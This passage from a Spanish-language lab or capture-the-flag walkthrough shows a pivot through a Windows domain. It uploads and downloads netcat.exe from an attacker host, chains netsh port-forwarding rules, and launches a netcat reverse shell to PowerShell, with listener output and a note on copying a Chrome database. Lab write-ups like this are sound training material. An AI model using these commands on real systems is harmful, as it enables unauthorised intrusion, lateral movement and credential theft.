 ```powershell
PS C:\Users\Administrator\Documents> upload netcat.exe

Info: Uploading netcat.exe to C:\Users\Administrator\Documents\netcat.exe  

Data: 58260 bytes of 58260 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents>
```

```bash
curl 192.168.11.6/netcat.exe -o C:\ProgramData\netcat.exe 
```

Para establecer una conexión de reverse shell, utilizaremos el comando `netsh` en el equipo DC1 para redirigir el tráfico del puerto 4444 hacia el equipo WEB01, y desde allí hacia nuestro equipo a través del mismo puerto.

Este enfoque nos permitirá configurar la redirección de puertos de manera que cualquier tráfico entrante al puerto 4444 del DC1 se reenvíe primero a WEB01 y luego a nuestro equipo, lo que nos permitirá establecer una conexión de reverse shell de manera efectiva.

```powershell
PS C:\Users\Administrator\Documents> python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 ...
192.168.11.210 - - "GET /netcat.exe HTTP/1.1" 200 -
```

```powershell
PS C:\Users\Administrator\Documents> netsh interface portproxy add v4tov4 listenaddress=192.168.11.6 listenport=4444 connectaddress=192.168.10.39 connectport=4444  
PS C:\Users\Administrator\Documents>
```

```powershell
PS C:\Users\Administrator\Documents> netsh interface portproxy add v4tov4 listenaddress=192.168.10.39 listenport=4444 connectaddress=10.10.14.10 connectport=4444  
PS C:\Users\Administrator\Documents>
```

Entiendo. Para completar la operación, ejecutaremos el archivo `netcat.exe` en la página web del servidor DC1. Esto enviará una shell inversa a DC1, que después de redirigir el tráfico, finalmente la enviará a nuestro equipo atacante.

Una vez completado este proceso, recibiremos una shell como el usuario `elliot` en el equipo MS01. En el directorio de descargas de este equipo, encontramos el instalador de Slack. Esta podría ser una pista importante. Tras una exhaustiva enumeración, descubrimos una base de datos con el nombre "7" dentro del directorio de Chrome, la cual copiaremos a la ruta C:\ProgramData.

```bash
cmd /c C:\ProgramData\netcat.exe -e powershell 192.168.11.6 4444  
```

```powershell
❯ netcat -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.13.38.20
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Users\elliot> whoami
megaairline\elliot
PS C:\Users\elliot>
```
